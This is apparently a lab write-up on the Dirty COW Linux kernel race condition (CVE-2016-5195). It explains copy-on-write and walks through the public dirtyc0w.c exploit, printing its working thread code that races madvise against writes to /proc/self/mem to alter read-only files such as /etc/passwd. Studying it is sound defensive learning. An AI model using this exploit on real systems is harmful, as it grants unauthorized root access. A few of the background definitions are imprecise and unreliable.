 # thm: Dirty cow kernel exploit race condition CVE-2016-5195

## Background

The vulnerability “Dirty Cow” came from the “dirty” bit and copy-on-write(COW). Dirty Cow is a vulnerability that occurs in the kernel’s memory subsystem so as to race condition. A race condition vulnerability was found in the way the Linux kernel’s memory subsystem handled the copy-on-write breakage of private read-only memory mappings. It deliberately creates an error during copy-on-write by repeating the processes and it tricks the kernel into actually writing to the underlying file.

This vulnerability allows privilege escalation by modifying critical system files such as /etc/passwd or the sudo binary.

- Kernel subsystem: The Kernel subsystem is responsible for fairly distributing the CPU time among all the processes running on the system simultaneously.

- Race condition: Race conditions occur when two computer program processes, or threads, attempt to access the same resource at the same time and cause problems in the system. Race conditions are considered a common issue for multithreaded applications.

- Overhead: CPU overhead measures the amount of work a computer’s central processing unit can perform and the percentage of that capacity that’s used by individual computing tasks.

- Copy-on-write: Copy On Write (CoW) is a method in which multiple processes continue to share the same physical memory until a write actually occurs.

- Dirty bit: A dirty bit is a binary value used by computer systems to track whether a specific unit of data, such as a cache line or a memory page, has been modified.

## Analysis

https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c

### Step1: open the root file in read only mode.
```
f=open(argv[1],O_RDONLY);
fstat(f,&st);
name=argv[1];
```

### Step2: mmap maps a file into memory. copy-on-write

Normally, copy-on-write (COW) occurs when a process attempts to write to memory that has been mapped as read-only. The write operation is performed on a private copy of the memory rather than the original segment. As a result, modifications are not visible to other processes mapping the same file, nor are they propagated to the underlying file. The specification also leaves undefined whether changes made to the file after an mmap() call are reflected in the mapped region.
```
map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0); 
printf("mmap %zx\n\n",(uintptr_t) map);
```
The mapping must be created with MAP_PRIVATE in order to enable copy-on-write behavior. The PROT_READ flag indicates that the mapped file is readable only. In this configuration, a private copy-on-write mapping is established.

### Step3: Start two threads to create copy-on-write race conditions.
```
pthread_create(&pth1,NULL,madviseThread,argv[1]);
pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
```
Both threads will run in parallel. DirtyCow is a race condition vulnerability. It means certain events have to occur in a specific order, that are unlikely to happen under normal conditions.

### Step 3.1: Madvise Thread

First thread uses the syscall madvise(). The madvise system call is used to give advice or directions to the kernel about the address range.
```
void *madviseThread(void *arg)
{
 char *str;
 str=(char*)arg;
 int i,c=0;
 for(i=0;i<100000000;i++)
 {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
 c+=madvise(map,100,MADV_DONTNEED);
 }
 printf("madvise %d\n\n",c);
}
```
First 100 byte is MADV_DONTNEED which means that it does not expect access in the near future. Subsequent accesses of pages in the range will succeed, but will result in either repopulating the memory contents from the up-to-date contents of the underlying mapped file.

### Step 3.2: write to proc/self/mem thread (R/O to R/W by proc/self/mem)
```
void *procselfmemThread(void *arg)
{
 char *str;
 str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
> The in the wild exploit we are aware of doesn't work on Red Hat
> Enterprise Linux 5 and 6 out of the box because on one side of
> the race it writes to /proc/self/mem, but /proc/self/mem is not
> writable on Red Hat Enterprise Linux 5 and 6.
*/
 int f=open("/proc/self/mem",O_RDWR);
 int i,c=0;
 for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
 lseek(f,(uintptr_t) map,SEEK_SET);
 c+=write(f,str,strlen(str));
 }
 printf("procselfmem %d\n\n", c);
}
```

First, mmap R/O file to memory by MAP_PRIVATE -> R/O map created. And next, open /proc/self/mem file by open() as if it is a file -> R/W file opened.

By accessing the virtual address offset through /proc/self/mem with read/write permissions, it becomes possible to issue write operations to a read-only disk mapping. In such cases, copy-on-write is triggered, and the write is applied to the private copy rather than the underlying file on disk. At this stage, no direct security impact arises.

- /proc : the information about the processes
- /proc/self : the current process
- /proc/self/mem : the memory (r/w permission)

Second, thread proc/self/mem thread opens the file /proc/self/mem and writes to this file in a loop. This is a thread that repeatedly sends write requests for the R/O map to the kernel through /proc/self/mem.

When copy-on-write is triggered, the kernel verifies that the write permission is valid and locates the corresponding page. At this stage, the private copy of the page can be discarded using `madvise(MADV_DONTNEED)`. Writing to the copied mapped memory marks the page as dirty, but the dirty page is not actually written back to the underlying file.

So this madvise call causes the throwing away of this memory. This means it is not any of the memory caches anymore. The page is searched again, it will create a edgecase that usually does not occur since it determined that write permission has been secured earlier, tricking the kernel into actually writing to the “actual” map page and write permission is not checked.

If a race condition occurs during this sequence, arbitrary data can be written to a read-only file. Each write attempt may coincide with the private copy being discarded, forcing the kernel to reload a fresh copy from the underlying file, which can then be modified.

The patch introduces a check to ensure that copy-on-write operations have completed before allowing further writes, preventing this condition from being exploited.
https://www.youtube.com/watch?v=kEsshExn7aE&ab_channel=LiveOverflow
